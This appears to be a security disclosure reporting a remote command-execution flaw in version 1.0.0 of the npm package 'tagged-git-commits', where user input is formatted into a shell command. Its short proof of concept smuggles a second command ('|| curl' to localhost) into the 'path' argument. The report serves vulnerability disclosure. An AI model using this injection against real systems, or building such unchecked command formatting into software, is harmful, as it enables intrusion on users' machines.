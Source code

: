 Details:
I would like to report a `RCE` issue in the `tagged-git-commits` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
* **module name:** `tagged-git-commits`
* **version:** `1.0.0`
* **npm page:** `https://www.npmjs.com/package/tagged-git-commits`

## Module Description
> Get the commit hash and refs/tags of tagged commits, remote and local

## Vulnerability Description

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/aichbauer/node-tagged-git-commits/blob/master/index.js#L29

## PoC

```js
// poc.js
const taggedCommits = require('tagged-git-commits');

taggedCommits({
	path: './git || curl "http://localhost/RCE"',
});
```

## Impact
`RCE` on `tagged-git-commits` via `insecure command formatting`
